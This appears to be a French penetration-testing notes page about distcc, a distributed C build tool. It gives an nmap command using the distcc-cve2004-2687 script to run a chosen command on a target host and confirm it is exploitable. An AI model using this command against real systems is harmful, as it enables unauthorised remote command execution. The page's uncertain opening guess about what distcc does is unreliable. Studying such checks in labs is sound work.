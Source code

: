 <sub>[Procédure serveur](server_procedure.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Cryptage](cryptage.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Outils](tools.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Sites utiles](useful_website.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Lexique](lexique.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Index](index.md)</sub>
<sub>[Retour](tools.md)</sub>
#Distribute C code

**Présentation :** ???? Permet de détecter si faille possible en C ?  distcc is a program to distribute builds of C, C++, Objective C or Objective C++ code across several machines on a network. distcc should always generate the same results as a local build, is simple to install and use, and is usually much faster than a local compile.

**CMD :** nmap -Pn  -p **RPORT** **RHOST** --script=**SCRIPT** --script-args=**SCRIPT_ARGS**

**Exemple :** *nmap -Pn  -p **RPORT** **RHOST** --script=distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='uname -a'"*

**Procédure :**
- Il existe une méthode directement intégrée à nmap pour savoir si une cible est vulnérable : *nmap -Pn  -p 1234 10.10.10.10 --script=distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='uname -a'"*
- Si c'est exploitable : *State: VULNERABLE (Exploitable)*